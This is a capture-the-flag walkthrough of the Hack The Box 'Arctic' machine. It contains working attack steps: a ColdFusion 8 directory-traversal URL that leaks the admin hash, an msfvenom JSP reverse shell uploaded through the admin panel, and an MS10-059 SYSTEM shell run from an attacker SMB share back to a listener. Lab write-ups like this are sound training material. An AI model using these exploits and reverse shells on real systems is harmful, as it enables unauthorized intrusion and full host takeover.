

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/window-boxes/arctic-easy
---

# ✅ Arctic (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** LFI, Arbitrary File Upload

**System Vulnerable:** 10.10.10.11

**Vulnerability Explanation:** The machine is vulnerable to LFI which we can get hash of the admin account and crack it easily with weak password. The application allow arbitrary file upload and we could upload reverse shell code and execute it then we gain initial foothold on the machine.

**Privilege Escalation Vulnerability:** MS10-059

**Vulnerability Fix:** Apply patch to the system and Validate user input

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.11 -Pn                                                                                                                              130 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-10 21:31 EST
Nmap scan report for 10.10.10.11
Host is up (0.057s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### Port 8500 Adobe

By accessing on port 8500, we see there are 2 directories. Which we are interesting on /administrator which provides us login page of **Cold Fusion 8.**

.png>)

.png>)

.png>)

.png>)

Let search for public exploit and we will focus only on RCE, LFI, and Arbitrary File upload.

```
└─$ searchsploit cold fusion                
-------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                    |  Path
-------------------------------------------------------------------------------------------------- ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                                               | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                                                            | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                                               | multiple/remote/16985.rb
Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Execution       | windows/remote/43993.py
Adobe ColdFusion 2018 - Arbitrary File Upload                                                     | multiple/webapps/45979.txt
Adobe ColdFusion 6/7 - User_Agent Error Page Cross-Site Scripting                                 | cfm/webapps/29567.txt
Adobe ColdFusion 7 - Multiple Cross-Site Scripting Vulnerabilities                                | cfm/webapps/36172.txt
Adobe ColdFusion 8 - Remote Command Execution (RCE)                                               | cfm/webapps/50057.py
Adobe ColdFusion 9 - Administrative Authentication Bypass                                         | windows/webapps/27755.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass (Metasploit)                            | multiple/remote/30210.rb
Adobe ColdFusion < 11 Update 10 - XML External Entity Injection                                   | multiple/webapps/40346.py
Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metasploit)                         | multiple/remote/24946.rb
```

## #1 Exploit (LFI)

Checking on exploit code of Directory Traversal.

```
# http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

Let accessing to our application to see whether it returns back the password or not. It's actually return back the hash rather than the password.

```
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 
encrypted=true 
```

.png>)

Next, checking whether we can crack the hash or not. As it's a weak password and we can easily crack it.

.png>)

### Login with PlainText

First time login, seem like it doesn't work but once we login again, it's working. It's require around 30s for every attempt.

.png>)

.png>)

### Login with Hash

Checking the source code, notice that once we submit our password, it will covert to hash and add salt value . This mean that every 30 seconds, it will generate new salt. [https://nets.ec/Coldfusion\_hacking#Logging\_In](https://nets.ec/Coldfusion_hacking#Logging_In)

```
<form name="loginform" 
action="/CFIDE/administrator/enter.cfm" method="POST" 
onSubmit="cfadminPassword.value = hex_hmac_sha1(salt.value, hex_sha1(cfadminPassword.value));" >
```

```
<input name="requestedURL" type="hidden" value="/CFIDE/administrator/enter.cfm?">
<input name="salt" type="hidden" value="1636715542929">
<input name="submit" type="submit" value="Login" style=" margin:7px 0px 0px 2px;;width:80px">
```

```
hex_hmac_sha1(document.loginform.salt.value, '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03');
```

#### Upload Reverse Shell

First we can generate our reverse shell payload.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=4444 > shell.jsp
```

We can check the file location on **Server Setting >** **Mapping.**

.png>)

We can HTTP Server for share exploit code.

```
python -m SimpleHTTPServer 80
```

We need to go **Debugging & Logging > Scheduled Tasks >  Scheduled Tasks.**

.png>)

.png>)

**Alternative method** we can use the python script to upload our shell.

Proof of concept code: [Arbitrary File Upload](https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108)

```
└─$ python file-upload.py 10.10.10.11 8500 shell.jsp                                                                                                                  255 ⨯
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

.png>)

Let start our netcat listener on port 4444 and go to execute the exploit code.

```
nc -vlp 4444
```

.png>)

## Priv-Esc (MS10-059)

Let run systeminfo and window-exploit-suggester to check for vulnerable.

```
└─$ python windows-exploit-suggester.py -u                                                                   
[*] initiating winsploit version 3.3...
[+] writing to file 2021-11-11-mssb.xls
[*] done
```

```
└─$ python windows-exploit-suggester.py -d 2021-11-11-mssb.xls -i systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

Checking on \[E] exploitdb POC, we found the one is working MS10-059.

Let start smb server share the file to our victim machine and start netcat listener on 5555.

```
impacket-smbserver share . 
nc -lvp 5555
```

On our victim machine, connect to the share drive and execute.

```
C:\ColdFusion8\runtime\bin>\\10.10.14.31\share\MS10-059.exe 10.10.14.31 5555
\\10.10.14.31\share\MS10-059.exe 10.10.14.31 5555
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

.png>)
